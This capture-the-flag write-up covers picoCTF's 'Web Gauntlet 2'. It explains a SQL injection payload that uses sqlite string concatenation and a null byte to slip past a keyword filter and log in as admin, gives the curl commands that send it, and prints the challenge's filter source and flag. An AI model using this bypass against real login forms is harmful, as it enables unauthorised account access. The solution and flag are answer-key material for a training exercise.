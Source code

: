 # Web Gauntlet 2

## Problem

> This website looks familiar... Log in as admin Site: <http://mercury.picoctf.net:35178/> Filter: <http://mercury.picoctf.net:35178/filter.php>

## Solution

1. According to [filter.php](http://mercury.picoctf.net:35178/filter.php) the application filters the following: `or and true false union like = > < ; -- /* */ admin`.

2. The query that solves this is `ad'||'min'%00`, which is similar to the final payload in the "Web Gauntlet" challenge from the PicoCTF 2020 Mini competition. In sqlite the `||` operator concatenates strings, thus allowing us to bypass the filter for `admin`. Next, the `%00` is a null byte, which terminates the SQL query.

3. A null byte cannot be typed directly into the website. So we use cURL instead: `curl --data "user=ad'||'min'%00&pass=a" http://mercury.picoctf.net:35178/index.php --cookie "PHPSESSID=5ntoldq0gkiutgqkmkgfqbe5vb" --output -`. I copied the `PHPSESSID` cookie from the browser, which is important because it is how the website knows to give us the flag when we go to `/filter.php` to get the flag.

4. We can retreive the flag with the browser that has the same `PHPSESSID` or wth curl: `curl http://mercury.picoctf.net:35178/filter.php --cookie "PHPSESSID=5ntoldq0gkiutgqkmkgfqbe5vb" | grep picoCTF`

5. The code for the filter and the flag are shown in `/filter.php` when the login is bypassed:

    ```php
     <?php
    session_start();

    if (!isset($_SESSION["winner2"])) {
        $_SESSION["winner2"] = 0;
    }
    $win = $_SESSION["winner2"];
    $view = ($_SERVER["PHP_SELF"] == "/filter.php");

    if ($win === 0) {
        $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
        if ($view) {
            echo "Filters: ".implode(" ", $filter)."<br/>";
        }
    } else if ($win === 1) {
        if ($view) {
            highlight_file("filter.php");
        }
        $_SESSION["winner2"] = 0;        // <- Don't refresh!
    } else {
        $_SESSION["winner2"] = 0;
    }

    // picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}
    ?>
    ```

### Flag

`picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}`
